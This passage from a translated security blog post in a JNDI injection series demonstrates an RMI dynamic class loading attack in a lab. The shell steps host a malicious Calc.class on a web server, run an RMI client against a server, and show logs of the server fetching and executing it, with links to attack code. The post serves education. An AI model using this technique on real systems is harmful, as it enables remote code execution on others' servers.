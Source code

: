 RMI 服务器上定义的 sendMessage 方法接受 Message 对象作为参数，但是为了攻击 RMI 服务器，RMI 客户机提供了一个 Calc 对象作为 sendMessage 方法的参数。

在客户端，启动一个简单的 web 服务器来托管 Calc.class 文件。

```
[root@demo rmi-client]# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

编译计算代码

```
[root@demo rmi-client]# javac rmi/remoteclass/Calc.java
```

编译 RMI 客户端代码，并启动它，192.168.0.95 是 RMI 服务器的 IP。

```
[root@demo rmi-client]# javac rmi/client/RmiClient.java 
[root@demo rmi-client]# java rmi/client/RmiClient 192.168.0.95
[root@demo rmi-client]#
```

在 RMI 客户机被执行之后，从 web 服务器的控制台，观察到 RMI 服务器(192.168.0.95)从 web 服务器下载恶意的 Calc.class。

```
[root@demo rmi-client]#  python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.0.95 - - [25/Dec/2022 22:55:13] "GET /rmi/remoteclass/Calc.class HTTP/1.1" 200 -
```

检查 RMI 服务器 Linux 上的 tmp 文件夹，Calc1 文件是 Calc.class 中的嵌入式命令在 RMI 服务器上执行的结果。

```
[root@demo rmi-server]# ls /tmp/
Calc1
```

以上两个演示的源代码可以在[攻击 RMI 客户端](https://github.com/zer0-map/JNDI-Injection-Series/tree/main/RMIVector/rmi-DynamicObjectLoading-attackingClient)和[攻击 RMI 服务器](https://github.com/zer0-map/JNDI-Injection-Series/tree/main/RMIVector/rmi-DynamicObjectLoading-attackingServer)找到。

事实上，从远程源加载动态类存在限制和过滤机制，攻击者从未停止发展和采用新技术来绕过这些限制，您将在本系列的下一篇博文中看到一些利用示例。

在下一篇博文中，我们将学习如何使用[不安全的反序列化来攻击 RMI 服务](https://medium.com/@yany.dong/jndi-injection-series-rmi-vector-insecure-deserialization-9b7a4b524d1d)。

参考:

https://paper.seebug.org/1091/

# 最后的想法

如果您有任何问题或反馈，请随时发表评论。如果你认为这篇博文有帮助，请点击拍手👏按钮下面几下，以示支持！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！